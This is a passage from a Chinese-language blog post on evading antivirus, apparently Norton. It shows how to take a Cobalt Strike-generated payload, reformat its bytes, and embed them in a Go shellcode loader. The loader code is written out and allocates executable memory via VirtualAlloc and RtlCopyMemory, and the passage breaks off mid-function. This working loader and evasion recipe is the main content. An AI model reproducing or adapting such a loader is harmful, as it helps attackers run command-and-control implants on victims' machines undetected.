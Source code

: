 test.exe 明明上传了：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPWMJfYHibxY6nv2T5wPqU6y3PwibxvcmC3lWn3xibdzqDu4K69M6Y20FqQkLSaT1938Q8aaqodEmUg/640?wx_fmt=png)

刷新查看直接没了~，没错，诺顿就是这么强。

### **3.2 go 语言加密 shellcode 执行**

好吧，吸取上次直接消失的教训，本地搭建环境进行测试，这次试试 go 语言的 shellcode 混淆;

使用 cs 生成 c 语言的 payload：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPWMJfYHibxY6nv2T5wPqU6ib665fHENibTCesYckbicFncWw1frYgV6zJ20dP5VticibcoKempib3MVy8A/640?wx_fmt=png)

得到：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPWMJfYHibxY6nv2T5wPqU6mnFVbC05FDEDyj6icNuLRedfYfWYKLLkVfsPPDssmd91h4cnIRVwDSw/640?wx_fmt=png)

使用替换功能，将 “\” 换为：“,0”：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPWMJfYHibxY6nv2T5wPqU67ic52TiaEZb06j3h1V6YpJvaxSaUaiaicy8Kic5UtThY9gM7hRCBAV4kTmQ/640?wx_fmt=png)

最后替换加载器中 shellcode_buf = []byte 部分内容：

```
package main
import (
"io/ioutil"
"os"
"syscall"
"unsafe"
)


const (
MEM_COMMIT             = 0x1000
MEM_RESERVE            = 0x2000
PAGE_EXECUTE_READWRITE = 0x40
)
var (
kernel32       = syscall.MustLoadDLL("kernel32.dll")
ntdll          = syscall.MustLoadDLL("ntdll.dll")
VirtualAlloc   = kernel32.MustFindProc("VirtualAlloc")
RtlCopyMemory  = ntdll.MustFindProc("RtlCopyMemory")
shellcode_buf = []byte{0xfc,0x48,0x83,0xe4,0xf0,………}
)
func checkErr(err error) {
if err != nil {
if err.Error() != "The operation completed successfully." {
println(err.Error())
os.Exit(1)
}
}
}
func main() {
shellcode := shellcode_buf
if len(os.Args) > 1 {
shellcodeFileData, err := ioutil.ReadFile(os.Args[1])
checkErr(err)
shellcode = shellcodeFileData
}
addr, _, err := VirtualAlloc.Call(0, uintptr(len(shellcode)), MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE)
if addr == 0 {
checkErr(err)
}
```